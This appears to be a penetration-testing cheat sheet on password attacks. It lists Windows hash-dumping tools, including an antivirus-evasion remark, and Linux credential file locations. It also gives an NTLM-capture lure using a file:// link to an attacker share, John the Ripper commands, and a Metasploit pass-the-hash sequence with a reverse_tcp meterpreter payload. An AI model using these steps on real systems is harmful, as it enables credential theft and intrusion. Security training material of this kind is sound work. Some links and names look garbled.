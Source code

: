 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords**
Pwdump (File Dropped to Disk Caught by AV) | http://www.tarasco.org/security/pwdump_7/
fgdump (File Dropped to Disk Caught by AV, Source available to evade AV) | http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other versions of pwdump | http://www.openwall.com/passwords/windows-pwdump
Metasploit hashdump | <code> meterpreter >hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry) </code>
Mimikatz | https://github.com/gentilkiwi/mimikatz
	
**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}

{% endhighlight %}

**Tools**
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd


